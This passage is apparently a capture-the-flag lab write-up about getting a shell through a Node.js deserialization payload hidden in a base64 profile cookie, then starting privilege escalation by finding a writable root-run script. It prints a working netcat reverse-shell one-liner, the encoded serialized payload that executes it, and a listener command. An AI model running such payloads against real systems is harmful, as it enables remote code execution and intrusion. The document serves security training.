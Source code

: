 The next step is to get a shell on the target host. A useful command for reverse shell payloads is `nc`. We can check if the host has the `nc` command available by executing the command `which nc && ping -c 10 10.10.14.11'`. If netcat exists, the first part of the command (`which nc`) evaluates to `True` and the host pings us 10 times. Otherwise, if the first part evaluates to `False`, we won't receive any ICMP packets.

We place this command in our JSON object and base64 encode the JSON object, as explained earlier. Next, we send a new request to the web application where the value of the `profile` cookie is the base64 encoded string we just generated. Shortly after sending the request, we can see ICMP echo requests from the target host in Wireshark and the target host thus has `nc` installed. As `nc` is installed, we can use the reverse shell payload below to get a shell on the target host.

{% highlight bash linenos %}
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.11 443 >/tmp/f
{% endhighlight %}

We place the reverse shell payload into our JSON object and base64 encode it as shown below.

{% highlight none linenos %}
kali@kali:~$ JSON='{"evil":"_$$ND_FUNC$$_function (){require('"'"'child_process'"'"').exec('"'"'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.11 443 >/tmp/f'"'"'); }()"}'
kali@kali:~$ echo $JSON | base64 -w0
eyJldmlsIjoiXyQkTkRfRlVOQyQkX2Z1bmN0aW9uICgpe3JlcXVpcmUoJ2NoaWxkX3Byb2Nlc3MnKS5leGVjKCdybSAvdG1wL2Y7bWtmaWZvIC90bXAvZjtjYXQgL3RtcC9mfHNoIC1pIDI+JjF8bmMgMTAuMTAuMTQuMTEgNDQzID4vdG1wL2YnKTsgfSgpIn0K
{% endhighlight %}

![sunShell](/assets/{{ imgDir }}/sunShell.png)

Next, we start a netcat listener by executing `nc -lvnp 443`. Finally, we send a request to the web application where the `profile` cookie is set to the base64 encoded JSON object. Once the request has been sent, our netcat listener receives a connection and we have a shell as the `sun` user on the target host! The next step is to perfrom a privilege escalation from the `sun` user to the `root` user. 

# Privilege Escalation
We start by listing the files in the home directory of the `sun` user, as shown below. The `output.txt` file and `node_modules` directory seem interesting since these are owned by the `root` user. By executing `cat output.txt` we get the content "Script is running...". In addition, it was edited quite recently, indicating that a script might have executed recently and written the file. This is interesting to us as attackers since the owner of the `output.txt` file is the `root` user, meaning that the script would be executing with `root` privileges.

![sunHome](/assets/{{ imgDir }}/sunHome.png)

After searching through the directories in the `sun` user's home directory, we find the files `user.txt` and `script.py` in the `/home/sun/Documents` folder. The `user.txt` file contains the user flag and the `script.py` file contains the line `print "Script is running..."`. As the output of the script would be the content of the `output.txt` file, we can strongly suspect that this is the script which created the `output.txt` file. We also have the right to overwrite the `script.py` file since it is owned by the `sun` user, as can be seen below. 

![sunHomeDoc](/assets/{{ imgDir }}/sunHomeDoc.png)
